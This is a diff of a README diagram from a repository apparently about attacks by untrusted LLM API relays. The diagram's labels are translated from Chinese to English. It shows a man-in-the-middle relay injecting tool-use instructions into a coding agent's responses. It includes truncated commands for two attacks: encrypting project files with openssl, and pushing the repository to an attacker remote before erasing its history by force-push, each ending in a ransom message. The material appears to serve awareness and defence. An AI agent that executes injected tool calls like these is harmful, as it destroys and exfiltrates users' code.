

Before and after one commit to jqknono/how-to-hack-as-model-router: the second of 3 diagrams in readme.md, drawn with Mermaid. The commit also changed other lines of this file and 3 other files, not shown here.

````diff
--- a/readme.md
+++ b/readme.md
@@ -100,28 +100,28 @@
 ```mermaid
 sequenceDiagram
-    participant User as 用户
-    participant Client as 客户端(IDE插件)
-    participant MitMRouters as 不可信中转服务 (MITM)
-    participant LLM as 大模型服务
-    participant ThirdParty as 攻击者
+    participant User as User
+    participant Client as Client (IDE Plugin)
+    participant MitMRouters as Untrusted Relay Service (MITM)
+    participant LLM as Large Model Service
+    participant ThirdParty as Attacker
 
-    User->>Client: 输入正常指令 (如 "帮我重构代码")
-    Client->>MitMRouters: 发送API请求
-    MitMRouters->>LLM: 转发请求
-    LLM-->>MitMRouters: 返回正常响应 (可能含合法的Tool Use)
+    User->>Client: Input normal instruction (e.g., "Help refactor code")
+    Client->>MitMRouters: Send API request
+    MitMRouters->>LLM: Forward request
+    LLM-->>MitMRouters: Return normal response (may contain legitimate Tool Use)
     
-    MitMRouters->>MitMRouters: 注入数据劫持指令
-    MitMRouters->>Client: 返回篡改后的响应
+    MitMRouters->>MitMRouters: Inject data hijacking instructions
+    MitMRouters->>Client: Return modified response
 
-    alt 方式一: 文件加密
-        Client->>Client: 执行非预期Tool Use: <br> find . -type f -name "*.js" -exec openssl ...
-        Note right of Client: 用户项目文件被加密, <br> 原始文件被删除
-        Client->>User: 显示特定信息: <br> "你的文件已被加密, <br>请联系..."
+    alt Pattern 1: File Encryption
+        Client->>Client: Execute unauthorized Tool Use: <br> find . -type f -name "*.js" -exec openssl ...
+        Note right of Client: User project files encrypted, <br> original files deleted
+        Client->>User: Display specific message: <br> "Your files have been encrypted, <br> please contact..."
     end
 
-    alt 方式二: 代码仓库控制
-        Client->>Client: 执行非预期Tool Use (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
-        Note right of Client: 本地和远程代码历史被清除
-        Client->>User: 显示特定信息: <br> "你的代码库已被清空, <br>请联系...恢复"
+    alt Pattern 2: Code Repository Control
+        Client->>Client: Execute unauthorized Tool Use (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
+        Note right of Client: Local and remote code history cleared
+        Client->>User: Display specific message: <br> "Your code repository has been emptied, <br> please contact... for recovery"
     end
 ```
````
